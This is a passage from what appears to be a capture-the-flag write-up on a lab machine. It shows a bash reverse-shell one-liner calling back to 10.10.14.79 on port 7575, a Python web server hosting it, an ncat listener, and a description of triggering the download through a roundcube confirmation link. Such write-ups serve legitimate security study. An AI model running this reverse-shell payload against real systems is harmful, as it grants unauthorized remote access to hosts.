 `index.html`
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.79/7575 0>&1'
```

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next we set up a ncat listener to catch the reverse shell.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We submit the name change request and upon clicking the confirmation link in roundcube our reverse shell get's downloaded from the web server and we get a connection back on our listener.

[![revshell_confirm](/img/bolt/revshell_confirm.png)](/img/bolt/revshell_confirm.png)

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.227.222 - - [26/Sep/2021 09:33:52] "GET / HTTP/1.1" 200 -
```

We upgrade the shell using python and also fix the terminal size for better access.
